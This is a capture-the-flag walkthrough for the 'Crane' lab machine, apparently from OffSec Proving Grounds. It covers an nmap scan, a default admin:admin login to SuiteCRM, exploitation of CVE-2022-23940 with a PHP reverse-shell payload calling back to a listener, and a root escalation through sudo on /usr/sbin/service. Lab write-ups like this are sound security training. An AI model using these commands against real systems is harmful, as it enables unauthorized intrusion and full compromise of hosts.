 ```yaml
---
layout: default
title: Crane
parent: Proving Grounds Practice - Linux
nav_order: 15
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/crane]                                                      └─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.192.146

Nmap scan report for 192.168.192.146
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-robots.txt: 1 disallowed entry
|_/
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|     HY000
|   LDAPBindReq:
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns:
|     Invalid message-frame."
|_    HY000
```

# Enumeration

---

## 80 | HTTP

Appears to be SugarCRM site.

![index](../../../assets/images/ctfs/proving_grounds/crane/index.png)

Attempting LFI led to "bad data page" and a link to "crane.offsec".

Upadated _/etc/hosts_

Attempted SQLi; dead end

Default credentails admin:admin login.

Check version history in "About"

![version](../../../assets/images/ctfs/proving_grounds/crane/version.png)

Searching for "SuiteCRM 7.12.3" leads to 'https://github.com/manuelz120/CVE-2022-23940' exploit.

# Exploitation

---

Downloaded the exploit and executed and received reverse shell on netcat listener per the instructions at https://github.com/manuelz120/CVE-2022-23940.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/crane]
└─$ python3 exploit.py -h http://crane.offsec -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.217\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
INFO:CVE-2022-23940:Login did work - Trying to create scheduled report


┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.192.146] 47542
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Check Sudo Permissions

We can run _/usr/bin/service_ and gain a root shell.

```bash
www-data@crane:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service
www-data@crane:/home$ sudo /usr/sbin/service ../../../bin/bash
sudo /usr/sbin/service ../../../bin/bash
root@crane:/# id
id
uid=0(root) gid=0(root) groups=0(root)

```
